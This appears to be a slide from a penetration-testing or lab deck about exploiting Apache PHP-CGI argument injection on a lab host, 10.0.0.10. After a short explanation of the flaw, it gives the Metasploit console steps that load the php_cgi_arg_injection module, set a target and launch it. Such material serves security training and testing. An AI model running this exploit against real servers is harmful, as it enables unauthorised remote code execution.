

# Exploitation on Host 10.0.0.10
Apache PHP-CGI Remote Code Execution
PHP CGI Argument Injection is a vulnerability that occurs when PHP is
running in CGI mode and improperly handling query string parameters,
 allowing attackers to pass malicious arguments. This can lead to remote
code execution or other security breaches by injecting commands via
the query string.
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(php_cgi_arg_injection) > show targets ...targets...
msf exploit(php_cgi_arg_injection) > set TARGET < target-id >
msf exploit(php_cgi_arg_injection) > show options ...show and set options...
msf exploit(php_cgi_arg_injection) > exploit
4